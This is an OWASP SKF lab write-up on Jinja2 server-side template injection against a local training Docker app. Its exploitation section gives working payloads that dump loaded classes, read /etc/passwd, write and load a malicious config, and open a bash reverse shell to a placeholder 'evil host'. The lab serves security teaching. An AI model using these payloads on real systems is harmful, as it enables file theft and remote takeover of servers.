




# KBID 267 - SSTI

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:server-side-template-injection
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:server-side-template-injection
```


 Now that the app is running let's go hacking!



## Reconnaissance

#### Step 1

As with all reconnaissance we first have to determine the type of application that is running and the programming language it was written in. This could easily be achieved by setting up an intercepting proxy and study the requests and responses made by the application to the web sever. 

Also, trying to trigger error messages on the application can also give away a lot of information about the application under test.

In the screenshot below in the response of the we find the python version that is running, accompanied  with the server "Werkzeug". This is a clear indicator the web application might be running python flask, and python flask typically runs with the templating engine, jinja2.



#### Step2

Now that we have determined the type of application that is running let's try to see if any user supplied input is accepted by the application. The input from the URL is being processed directly in the application and outputted in the HTML. So now we have control of whatever is being reflected on the page. How do we now determine if the application might be susceptible to Server Side Template Injection?  
  
First we need to do some investigation on how the syntax works, so we dive into the docs!


[http://jinja.pocoo.org/docs/2.10/templates/](http://jinja.pocoo.org/docs/2.10/templates/)


And here we find the following information.

```text
 for Statements
{{ ... }} for Expressions to print to the template output
{# ... #} for Comments not included in the template output
#  ... ## for Line Statements
```

Now, we want to use expressions to print to the template output to see if our payloads are interpreted and executed on the server-side by the templating engine. The most ideal way to do so is to inject mathematical statements.

As found in the docs:

```text
{{ 1 + 1 }} is 2.
```

Let's see what happens of we inject the expression with the operator described above!



## Exploitation

A nice website with write-ups about different type of payloads on template engines is found here:  
[  
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections\#dump-all-used-classes](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes)

In python `__mro__` or `mro()` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. Read the [docs](https://docs.python.org/3/library/stdtypes.html?highlight=subclasses#class.__mro__) for more. Basically, you can crawl up the inheritance tree of the known objects using `mro`, thus accessing _every class loaded_ in the current python environment 

Now, lets find some usefull injections for Jinja2.  
In order to build our exploit this here already looks pretty promising:

```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

After injecting the payload we now have a list of all the different classes loaded in our target application. Let's see if we can use it to read some information from the file system



On position 40 whilst iterating over the different loaded classes we find the "read" function. Let's use this function to read the "/etc/passwd" file from the filesystem.

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```



As mentioned before this attack can ultimately be used also to gain remote code execution on the target application. In order to do so we first would need to set up a listener and than inject the following payloads

```text
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

## Additional sources

[https://portswigger.net/blog/server-side-template-injection](https://portswigger.net/blog/server-side-template-injection)  
  
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections\#dump-all-used-classes](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes)  
  
[https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)  
  


